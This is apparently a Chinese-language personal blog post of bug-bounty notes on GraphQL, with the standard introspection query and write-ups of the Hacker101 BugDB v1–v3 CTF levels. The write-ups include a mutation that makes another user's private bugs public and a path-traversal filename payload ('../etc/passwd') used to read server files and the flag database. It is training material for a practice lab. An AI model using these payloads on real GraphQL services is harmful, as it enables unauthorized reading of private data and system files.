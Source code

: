 ```yaml
---
layout: post
title: BugBounty-GraphQL
---
```


* TOC
{:toc}

## 前置知识

官方文档

+ [https://graphql.cn/](https://graphql.cn/learn/queries/#mutations)

分析工具

+ [chrome插件版Graphiql](https://chrome.google.com/webstore/detail/graphiql-extension/jhbedfdjpmemmbghfecnaeeiokonjclb?hl=en)
+ [graphdoc生成文档](https://github.com/2fd/graphdoc)

通用自省payload，graphiql默认发送

```
{"query":"\n  query IntrospectionQuery {\n    __schema {\n      queryType { name }\n      mutationType { name }\n      subscriptionType { name }\n      types {\n        ...FullType\n      }\n      directives {\n        name\n        description\n        locations\n        args {\n          ...InputValue\n        }\n      }\n    }\n  }\n\n  fragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n      name\n      description\n      args {\n        ...InputValue\n      }\n      type {\n        ...TypeRef\n      }\n      isDeprecated\n      deprecationReason\n    }\n    inputFields {\n      ...InputValue\n    }\n    interfaces {\n      ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n      name\n      description\n      isDeprecated\n      deprecationReason\n    }\n    possibleTypes {\n      ...TypeRef\n    }\n  }\n\n  fragment InputValue on __InputValue {\n    name\n    description\n    type { ...TypeRef }\n    defaultValue\n  }\n\n  fragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n                ofType {\n                  kind\n                  name\n                }\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n"}
```

## 攻击面

## CTF

### hackone101 BugDB v1

题目提供了GraphiQl的界面，通过右侧的Docs可以得到所有接口信息

![](../images/bugDB_v1_1.png)

使用Query嵌套查询查询

![](../images/bugDB_v1_2.png)

### hackone101 BugDB v2

考点是`Mutation`的使用

需要将`victim`用户的`Bugs`的`privite`属性设置为`false`

```
mutation {
  modifyBug(id: 2, private: false) {
    ok
    bug {
      id
    }
  }
}
```

### hackone101 BugDB v3

常规的，将`query`方法列出

![](../images/bugDB_v3_1.png)

观察内省，发现多了两个`Mutation`的操作

分别是上传文件和修改文件名称

上传文件

![](../images/bugDB_v3_2.png)

得到的文件名是一串随即数

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "a13f22a17a0b6c38ec973e42dc80b608",
  "bug": {
    "id": "QnVnczox"
  }
```

修改文件名


![](../images/bugDB_v3_3.png)

修改文件名后得到的文件名成为可控值

```
"node": {
  "id": "QXR0YWNobWVudHM6MQ==",
  "bugId": 1,
  "filename": "test1.txt",
  "bug": {
    "id": "QnVnczox"
  }
```

到这里我就卡住了，然后参考了别人的wp

首先hackerone给出的提示为

+ What new functionality was added?
+ Filenames are always interesting
+ How do you access attachments? Hint: not via GraphQL

通过路由*/attachments/1*可以访问到之前上传的文件

![](../images/bugDB_v3_4.png)

事实上这有些类似我们的软连接的处理，在文件名中存在路径穿越的情况

```
mutation modifyAttachment{
  modifyAttachment(id: 1, filename: "../../../../../../etc/passwd"){
    ok
  }
}
```

当看了`main.py`和`model.py`的源码后，发现有这么一个东西

```python
from sqlalchemy import create_engine from sqlalchemy.ext.declarative import declarative_base from sqlalchemy.orm import relationship, scoped_session, sessionmaker from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String engine = create_engine('sqlite:///level18.db', convert_unicode=True) db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) Base = declarative_base() Base.query = db_session.query_property() class User(Base): __tablename__ = 'users' id = Column(Integer, primary_key=True) username = Column(String(255)) password = Column(String(255)) bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') class Bug(Base): __tablename__ = 'bugs' id = Column(Integer, primary_key=True) reporter_id = Column(Integer, ForeignKey('users.id')) reporter = relationship(User, primaryjoin=reporter_id == User.id) text = Column(Text(65536)) private = Column(Boolean()) attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') class Attachment(Base): __tablename__ = 'attachments' id = Column(Integer, primary_key=True) bug_id = Column(Integer, ForeignKey('bugs.id')) bug = relationship(Bug, primaryjoin=bug_id == Bug.id) filename = Column(String(255))
```

其中有个*sqlite:///level18.db*，用同样的方法，可以将flag读出

![](../images/bugDB_v3_5.png)

## 漏洞报告

## template

## 参考资料

+ [攻击GraphQL](https://xzfile.aliyuncs.com/upload/zcon/2018/7_%E6%94%BB%E5%87%BBGraphQL_phithon.pdf)
+ [GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)
